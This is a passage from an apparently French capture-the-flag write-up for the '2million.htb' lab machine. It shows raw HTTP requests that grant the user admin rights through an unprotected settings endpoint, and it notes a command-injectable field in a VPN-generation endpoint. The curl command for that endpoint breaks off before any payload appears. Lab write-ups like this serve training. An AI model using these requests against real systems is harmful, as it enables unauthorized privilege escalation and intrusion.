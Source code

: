 ```bash
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 07 Dec 2024 22:51:47 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 800

{"v1":{"user":{"GET":{"\/api\/v1":"Route List","\/api\/v1\/invite\/how\/to\/generate":"Instructions on invite code generation","\/api\/v1\/invite\/generate":"Generate invite code","\/api\/v1\/invite\/verify":"Verify invite code","\/api\/v1\/user\/auth":"Check if user is authenticated","\/api\/v1\/user\/vpn\/generate":"Generate a new VPN configuration","\/api\/v1\/user\/vpn\/regenerate":"Regenerate VPN configuration","\/api\/v1\/user\/vpn\/download":"Download OVPN file"},"POST":{"\/api\/v1\/user\/register":"Register a new user","\/api\/v1\/user\/login":"Login with existing user"}},"admin":{"GET":{"\/api\/v1\/admin\/auth":"Check if user is admin"},"POST":{"\/api\/v1\/admin\/vpn\/generate":"Generate VPN for specific user"},"PUT":{"\/api\/v1\/admin\/settings\/update":"Update user settings"}}}}
```
On envoie cette requete:
```bash
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jg018kgbajmc0pjtrdo4dv603a
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 52

{
"email" : "hello@hello.hello",
"is_admin" : 1
}

# REPONSE

HTTP/1.1 200 OK
Server: nginx
Date: Sat, 07 Dec 2024 23:59:01 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 41

{"id":22,"username":"hello","is_admin":1}
```
On peut demander a générer un vpn pour un utilisateur. L'utilisateur est injectable, comme on peut voir avec la commande curl ici.
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate \
-H "Host: 2million.htb" \
-H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0" \
-H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
-H "Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3" \
-H "Accept-Encoding: gzip, deflate, br" \
```